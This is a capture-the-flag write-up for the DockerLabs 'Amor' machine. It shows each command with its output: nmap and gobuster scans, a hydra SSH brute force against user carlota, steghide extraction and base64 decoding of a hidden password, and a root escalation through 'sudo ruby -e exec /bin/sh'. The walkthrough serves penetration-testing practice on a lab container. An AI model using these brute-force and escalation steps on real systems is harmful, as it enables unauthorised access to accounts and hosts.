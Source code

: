 #Amor DockerLabs - 15/05/2024

#web - https://dockerlabs.es/#/

We performed an nmap scan:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:18 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00010s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.27 seconds
```

We find a port 80 which we access:

![Captura de pantalla 2024-05-15 185252](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/79eda3a9-5edc-4533-8754-6f427123fdd9)

We did a directory scan with gobuster but found nothing:

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt       
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```

We also look at what the website has and see reports where we found a very interesting one:

![Captura de pantalla 2024-05-15 185307](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/2fcf8350-3dcf-4c12-9d5e-532b10445255)


We see a user ‘juan’ fired so we forget about him and another one called ‘carlota’.
We proceed to do a brute force attack with hydra:

```shell
└─$ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-15 18:49:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-15 18:49:47
```

It finds the password so let's try to log in with your username:

```shell
└─$ ssh carlota@172.17.0.2                                                
carlota@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)
```

I tried to do a ‘sudo -l’ and a ‘find / -perm -4000 -user root 2>/dev/null’ but nothing interesting.
Searching through the directories we found:

```shell
carlota@602e73150064:~/Desktop/fotos/vacaciones$
```

Where there is a ‘.jpg’ file and we download it to our local machine.

```shell
└─$ scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Desktop/Machines/Amor/
```

We use steghide to find the hidden information in the file in case we find something:

```shell
└─$ steghide extract -sf imagen.jpg
Enter passphrase: 
the file "secret.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "secret.txt".

```

```shell
└─$ cat secret.txt
ZXNsYWNhc2FkZXBpbnlwb24
```

We found something so we are going to decrypt it:

```shell
└─$ echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode
eslacasadepinypon
```

Thinking that it could be that I thought it was a password but I could not find another user, I tried with the user ‘root’ but nothing I got again to the ssh server to browse the directories and we found a new user:

![Captura de pantalla 2024-05-15 185222](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/e3dcba9f-9a7d-435f-9259-6c033cda849b)

Entramos con el usuario "oscar" y su contraseña:

```shell
└─$ ssh oscar@172.17.0.2  
oscar@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)
```

We see that we can log in and now we try to escalate privileges with this user to see if we can with this one:

```shell
$ sudo -l
Matching Defaults entries for oscar on 602e73150064:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 602e73150064:
    (ALL) NOPASSWD: /usr/bin/ruby
```

We see that we can escalate privileges, we go to ‘https://gtfobins.github.io/gtfobins/env/’.
Search for ruby and paste the sudo command in the terminal:

```shell
$ sudo ruby -e 'exec "/bin/sh"'
```

```shell
# whoami
root
```
